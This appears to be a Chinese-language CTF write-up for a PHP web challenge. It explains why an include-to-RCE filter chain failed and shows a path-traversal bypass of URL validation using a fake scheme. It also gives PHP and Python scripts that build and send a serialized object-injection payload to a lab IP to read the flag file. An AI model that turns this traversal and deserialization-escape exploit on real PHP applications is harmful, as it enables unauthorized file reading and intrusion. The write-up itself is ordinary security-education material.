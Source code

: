     这个当时还带有一点迷惑性,毕竟自从[hxp CTF 2021 - The End Of LFI?](https://blog.zeddyu.info/2022/01/08/2022-01-08-TheEndOfLFI/)出来以后没有前缀限制且能获取到一个有数据的文件的`include`几乎就等于RCE了
    
    而这个题目环境中是先执行`include`再调用`file_get_contents`, 一开始我便以为是多此一举了, 但是实际执行的时候就出现了问题, 不管是使用陆队文章中的脚本还是使用wupco师傅的[PHP\_INCLUDE\_TO\_SHELL\_CHAR\_DICT](https://github.com/wupco/PHP_INCLUDE_TO_SHELL_CHAR_DICT),最后读出的数据都不能RCE(应该就是出题人专门选了一个确实必要字符集的docker容器或者出题人将关键字符集删掉了?不懂..)
    
    > 补充：include预期中应该是使用`php://filter`来读取hint.php的，但是因为include的文件会被加上.php所以并不能读取到flag的.txt文件，后面依旧是使用下面的方法通过`file_get_contents`获取flag
    
    既然`include`没用那就直接让`$this->f='trypass'`满足要求然后执行`file_get_contents`,
    
    首先需要使用协议的格式才能读取, 这里如果想使用`php://filter`就不行, 这里想要可以直接使用一个非协议的随机字符串就行, 这时候满足了`parse_url`和`filter_var($this->hint, FILTER_VALIDATE_URL)`的格式同时又因为没有对应协议所以会被作为文件名解析, 只要多几个`../`即可完成绕过, 最后读取`h0cksr://prankhub/../../../../../../../var/www/html/hint.php`拿到flag位置, 再读取`h0cksr://prankhub/../../../../../../../f1111444449999.txt`拿到flag

因为我这里一开始是准备使用LIF所以`$o->f`的文件名高达上千个字符, 所以让`password`膨胀到了4位数, 需要的拓展位为28位, , 通过执行下面代码

```php
<?php
class order
{
    public $f;
    public $hint;
}
class UserAccount
{
    protected $username;
    protected $password;

}
$o= new order();
$o->f='http://h0cksr.xyz/trypass';
$o->hint='h0cksr://prankhub/../../../../../../../f1111444449999.txt';
$ser=serialize($o);

$insert=';s:6:"h0cksr";'.str_replace('"order":2','"order":3',$ser).';}';
$username = '123'.str_repeat('@0@0@0@',7);
$password = $insert.str_repeat("01234567890",200);

$user = serialize(new UserAccount($username, $password));
file_put_contents("1.txt",$username."\n".$password);
system("python 1.py");
```

因为生成的数据太长复制粘贴比较麻烦所以将请求数据写入一个文件中, 然后在1.py读取文件数据发出请求

```python
import requests

data = open("1.txt","rb").readlines()
username,password = data[0],data[1]
data={
    "username":username,
    "password":password
}
# print(requests.get("http://172.51.60.211").text)
print(username)
print(password)
url="http://172.51.60.211/tm.php"
print("================")
res = requests.post(url,data)
print(res.text)
print("================")

```
